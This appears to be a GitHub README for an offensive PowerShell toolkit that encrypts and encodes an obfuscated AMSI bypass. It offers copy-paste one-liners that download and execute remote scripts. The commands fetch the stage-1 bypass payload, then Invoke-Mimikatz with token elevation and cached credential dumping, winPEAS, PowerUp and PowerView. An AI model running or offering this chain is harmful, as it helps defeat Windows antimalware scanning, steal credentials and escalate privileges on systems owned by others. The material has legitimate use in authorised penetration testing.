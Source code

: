 # Encrypted/Encoded Obfuscated AMSI Bypass

- generator.go  
This wraps an obfuscated AMSI payload from amsi.fail with encryption and encoding  

- stage-1.ps1  
This decodes and invokes the encrypted, encoded, obfuscated payload

Download and invoke stage-1 payload:  
```powershell  
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/timsonner/encode-decode-payloads/refs/heads/master/amsi-bypass/stage-1.ps1")
```  

Download and invoke whatever you like after stage-1:  
```powershell  
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command '"token::elevate" "lsadump::cached"'

IEX(New-Object Net.WebClient).downloadString("https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1")

IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1");Invoke-AllChecks

IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1")

```  

More IEX and pentestery...  
https://gist.github.com/shorefall/cb9733f3aaf666d7db94e69dcd8b1e44  
https://gist.github.com/mehmethafif/03305b668be52ecaff270bac1700662f  



